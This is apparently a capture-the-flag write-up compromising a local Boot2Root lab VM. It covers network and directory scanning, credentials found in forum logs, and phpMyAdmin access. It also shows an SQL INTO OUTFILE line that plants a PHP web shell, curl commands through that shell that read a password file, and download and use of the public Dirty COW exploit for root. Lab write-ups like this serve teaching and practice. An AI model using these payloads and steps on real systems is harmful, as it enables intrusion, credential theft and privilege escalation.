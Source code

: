 # writeup1
After running the VM, it wants us to login, but we don't have login and password so we are going to use the **netdiscover** tool in our computer, which will return us all of the IP addresses that we currently have in our network, except the one for our machine. Writing the following command․
```
netdiscover -r 192.168.1.0/24 #-r flag is the range of ips, and how did we know about /24, when we do ip a we’ll see our ip address, which ends with /24
```
And as a result we see the following:
```
Currently scanning: Finished!   |   Screen View: Unique Hosts

 11 Captured ARP Req/Rep packets, from 5 hosts.   Total size: 498
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.1.1     e8:01:8d:27:a7:00      5     210  Fiberhome Telecommunication
 192.168.1.3     c8:3a:35:36:91:18      1      60  Tenda Technology Co., Ltd.
 192.168.1.2     d8:af:81:0f:42:36      1      60  AO
 192.168.1.12    08:00:27:45:1c:86      2      84  PCS Systemtechnik GmbH
 192.168.1.6     32:4c:46:b9:8e:42      2      84  Unknown vendor
```

The first one is my router,
the second one is my other route,
the third one is my TV,
and the fourth one I don't know yet. Let's go to the browser and investigate it.

<img src="img/Pasted image 20240704110727.png">

Well, I think we found the IP address of our machine, but it's so empty att first glance. It is worth to check and parse the directories, to see what is there:

For that we can use the **dirb** tool.
```
┌──(neo㉿matrix)-[~]
└─$ dirb http://192.168.1.12/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Jul  4 11:13:15 2024
URL_BASE: http://192.168.1.12/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.1.12/ ----
+ http://192.168.1.12/cgi-bin/ (CODE:403|SIZE:288)
==> DIRECTORY: http://192.168.1.12/fonts/
+ http://192.168.1.12/forum (CODE:403|SIZE:285)
+ http://192.168.1.12/index.html (CODE:200|SIZE:1025)
+ http://192.168.1.12/server-status (CODE:403|SIZE:293)

---- Entering directory: http://192.168.1.12/fonts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Thu Jul  4 11:13:19 2024
DOWNLOADED: 4612 - FOUND: 4
```
We see that there is a /forum whose status code is 403 (fprnoddem) because we only scanned with https, let's try with https. and while this happend, we can already enter the forum with https։

<img src="img/Pasted image 20240704112010.png">

While we investigating all this, we can get **nmap** working for our ip.
**nmap** is a tool, that scans open ports of the given ip, and gives information about them. We should have done this in the beginning, but I'm an old man and I forgot.
```
sudo nmap 192.168.1.12 -sS -sV -sC -v &>out
```
While scanning, On the page 'Problem login; we see interesting logs, that lmezard use wants to login and it doesn't work, and if we search that username using the functions of the browser, we'll see this:

<img src="img/Pasted image 20240704112903.png">

We can see from these logs that this user naively wrote his password as a username and failed.

there is a place on the site to login, let's try it

<img src="img/Pasted image 20240704113729.png">

And great, we logged in and there was also webmail in the output of **dirb**

<img src="img/Pasted image 20240704114314.png">

lmezard isn't logged in, but if we look at our user's email from our forum, we'll see this

<img src="img/Pasted image 20240704120557.png">

We successfully login with this email, and we can see an interesting message here

<img src="img/Pasted image 20240704120634.png">

and whenever we go to phpadmin

<img src="img/Pasted image 20240704120741.png">

we'll be able to log in with the password given by this email

and here we have the possibility to write sql code, and after suffering for 40 years and asking people in slack, I realized that we have permission in the templates_c folder, so we will run the following:
```
SELECT 1, '<?php system($_GET["cmd"]." 2>&1"); ?>' INTO OUTFILE '/var/www/forum/templates_c/gago.php'
```
<img src="img/Pasted image 20240704122427.png">

And here we got this

Now let's see what's here
```
┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.12/forum/templates_c/gago.php?cmd=ls%20%20/home'
1	LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.12/forum/templates_c/gago.php?cmd=ls%20-a%20/home'
1	.
..
LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.12/forum/templates_c/gago.php?cmd=ls%20-a%20/home/LOOKATME'
1	.
..
password

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.12/forum/templates_c/gago.php?cmd=ls%20-a%20/home/LOOKATME/password'
1	/home/LOOKATME/password

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.12/forum/templates_c/gago.php?cmd=cat%20/home/LOOKATME/password'
1	lmezard:G!@M6f4Eatau{sF"

```

unfortunately, we cannot login with ssh with this login and password, but we can do it with VM

<img src="img/Pasted image 20240712001204.png">

Let's do uname -a to see what kernel it s, because this iso file is a bit younger that my grandma

<img src="img/Pasted image 20240712001336.png">

and after a little googgling **linux 3.2 cve**  I cam across this link https://www.cybersecurity-help.cz/exploits/1039/?ref=bulletin and found this exploit from github https://github.com/firefart/dirtycowv. We don't have git to clone it, bu we have 2 nostril.

We go to tmp and download the file using curl
```
cd /tmp
curl https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c > dirty.c
```
The way to use the exploit is written in  a file

// This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
//
// To use this exploit modify the user values according to your needs.
//   The default is "firefart".
//
// Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
//   https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
//
// Compile with:
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
//
// Exploit adopted by Christian "FireFart" Mehlmauer
// https://firefart.at

Let's compile and run it

<img src="img/Pasted image 20240712004026.png">

I think it worked! Let's try to login. As the script changes a username, I'll edit the script and put with root in my files,  so that you don't say that you aren't root, regardless of the fact that the ID is 0:

<img src="img/Pasted image 20240712004305.png">

And you can congratulate me, we have root.

<img src="img/Pasted image 20240712011419.png">
And here is the changed code, which is in the /scripts folder
